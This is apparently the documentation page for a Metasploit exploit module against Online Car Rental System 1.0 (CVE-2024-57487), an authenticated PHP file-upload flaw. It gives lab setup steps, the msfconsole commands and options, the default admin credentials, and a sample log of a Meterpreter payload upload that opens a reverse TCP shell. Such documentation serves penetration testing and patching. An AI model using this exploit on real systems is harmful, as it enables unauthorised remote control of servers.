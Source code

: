 ## Vulnerable Application

The **Online Car Rental System 1.0** is vulnerable to **Authenticated Remote Code Execution (RCE)** due to an insecure file upload mechanism. Specifically, the `changeimage1.php` endpoint in the admin panel does not validate uploaded file types, allowing authenticated users to upload arbitrary PHP scripts. These scripts can be accessed and executed via a predictable file path, leading to full remote code execution.

This module exploits the vulnerability by authenticating to the admin panel, uploading a malicious PHP payload
using the vulnerable endpoint, and executing it to gain remote access.

- **CVE**: [CVE-2024-57487](https://nvd.nist.gov/vuln/detail/CVE-2024-57487)
- **Author**: Aaryan Golatkar
- **Disclosure Date**: 13/01/2025

---

## Verification Steps

### Vulnerable Application Installation Setup

#### For Windows:
1. Start Apache and MySQL via the **XAMPP Control Panel**.
2. Extract the Online Car Rental System 1.0 source code.
3. Place the extracted folder inside `htdocs` (e.g., `C:\xampp\htdocs\carrental`).
4. Navigate to `http://localhost/phpmyadmin` in your browser.
5. Create a database (e.g., `carrental_db`), and import the SQL dump (`carrental.sql`) provided in the `database` directory.
6. Visit `http://localhost/carrental/` to verify installation.

#### For Linux:
1. Start services: `sudo systemctl start apache2 && sudo systemctl start mysql`
2. Install PHPMyAdmin: `sudo apt install phpmyadmin -y`
3. Edit `/etc/apache2/apache2.conf` and append:
   ```
   Include /etc/phpmyadmin/apache.conf
   ```
4. Extract the project into `/var/www/html/`
5. Follow the same steps as Windows from here onward.

---

## Exploit Module Usage

### Start msfconsole and load the exploit:

```bash
msfconsole
use exploit/multi/http/carrental_fileupload_rce
```

### Set the required options:

```bash
set rhosts <target_ip>
set rport <port>
set targeturi /carrental
set username <admin_username>      # Default: admin
set password <admin_password>      # Default: Test@12345
set lhost <your_ip>
set lport <your_port>
```

---

## Checking Target Vulnerability

```bash
check
```

If vulnerable, you will see:

```
[+] <IP> The target appears to be the Online Car Rental System.
```

---

## Launching the Exploit

```bash
exploit
```

If successful, you will receive a Meterpreter shell.

---

## Scenarios

```bash
msf exploit(multi/http/carrental_fileupload_rce) > check
[*] Checking if target is vulnerable...
[+] 192.168.1.103:80 - The target appears to be the Online Car Rental System.

msf exploit(multi/http/carrental_fileupload_rce) > exploit
[*] Started reverse TCP handler on 192.168.1.104:4444 
[*] Uploading PHP Meterpreter payload as WxAqV7.php...
[+] Payload uploaded successfully!
[*] Executing the uploaded shell at /carrental/admin/img/vehicleimages/WxAqV7.php...
[*] Sending stage (40004 bytes) to 192.168.1.103
[*] Meterpreter session 2 opened (192.168.1.104:4444 -> 192.168.1.103:60615)

meterpreter > sysinfo
Computer    : DESKTOP-1234
OS          : Windows NT 10.0 build 19045 (Windows 10)
Meterpreter : php/windows
```

---

## Options

| Option       | Required | Description                                           |
|--------------|----------|-------------------------------------------------------|
| `TARGETURI`  | Yes      | The base path to the Car Rental System (e.g., `/carrental`) |
| `USERNAME`   | Yes      | Admin username (default: `admin`)                    |
| `PASSWORD`   | Yes      | Admin password (default: `Test@12345`)               |
| `RHOSTS`     | Yes      | The target IP address                                |
| `RPORT`      | Yes      | The target web server port (default: 80)             |
| `LHOST`      | Yes      | The local host to receive the reverse shell          |
| `LPORT`      | Yes      | The local port to receive the reverse shell          |

---
